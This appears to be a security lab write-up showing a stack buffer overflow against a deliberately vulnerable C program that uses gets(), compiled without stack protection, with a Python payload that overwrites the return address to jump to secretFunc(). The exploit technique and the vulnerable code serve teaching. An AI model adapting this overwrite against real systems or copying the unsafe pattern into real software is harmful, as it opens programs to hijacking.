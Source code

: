 # Attack `bof1.c`

```c++
#include <stdio.h>
#include <unistd.h>
void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln()
{
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char *argv[])
{
    if (argv[1] == 0)
    {
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

The target is to call the function `secretFunc()` by providing a large amount of input that overflow the size of the array `char array[200]`.

## Compile the source code

We compile the source code with `-fno-stack-protector` to disable the stack protector.

    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2

![gcc -g bof1.c -o bof1.o](./img/bof1/gcc.png)

A new file `bof1.o` is created.

Here we get a warning:

```shell
bof1.c: In function 'vuln':
bof1.c:11:5: warning: implicit declaration of function 'gets' [-Wimplicit-function-declaration]
     gets(array);
     ^
/tmp/ccH5mRoJ.o: In function `vuln':
/home/seed/seclabs/review2/bof1.c:11: warning: the `gets' function is dangerous and should not be used.
```

This is because the source code used `gets()` which is a vulnerable function. It it doesn’t limit the amount of data it reads, making it susceptible to buffer overflows.

`gets()` has been removed from modern versions of the C standard because it can lead to arbitrary code execution via buffer overflow.

## Finding the address of the `secretFunc()`

In order to call the function `secretFunc()`, we need to know its address. We can obtain this address using `objdump`.

```bash
objdump -d bof1.o | grep secretFunc
```

![objdump -d bof1.o | grep secretFunc](./img/bof1/objdump.png)

The address of the function is `0x0804846b`. When writing this address to the stack, we need to represent it in **Little Endian** format, meaning it is reversed in memory (`6b 84 04 08`)

## Attack

We will overflow the stack frame of the `vuln()` function, specifically the local `array` variable. The goal is to overwrite the saved return address (`eip`) on the stack, causing it to jump to `secretFunc()`.

### Stack frame of `vuln()`:

![vuln()](./img/bof1/stackframe.png)

We need to input a large amount of charactors so that it exceed the 200 bytes char array plus 4 bytes of `ebp`, and overwrite the value of `eip` so that it will call the function `secretFunc()` instead of returning to `main()`.

Remember, the address of `secretFunc()` is `0x0804846b`, and we need to write it in reverse.

The input should be 200 bytes to fill the memory spared for the `array` local variable, and 4 bytes to fill the memory of `ebp`, then we will insert the address of `secretFunc()` into `eip`.

Since the input is so long, I will use Python to do it for me

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')")
```

### Explain:

-   `'a' * 200`: 200 characters for the `array`.
-   `'b' * 4`: 4 characters for the `ebp`.
-   `'\x6b\x84\x04\x08'`: address of `secretFunc()` written in **Little Endian** format.

To inject the output of the `echo` into the input of the program, we will add `| ./bof1.o 1` after the `echo`:

```bash
echo $(python -c "print('a' * 200 + 'b' * 4 + '\x6b\x84\x04\x08')") | ./bof1.o 1
```

### Result:

![result](./img/bof1/result.png)

We got the message `Congratulation!`, which means we have successfully redirect execution to `secretFunc()`!
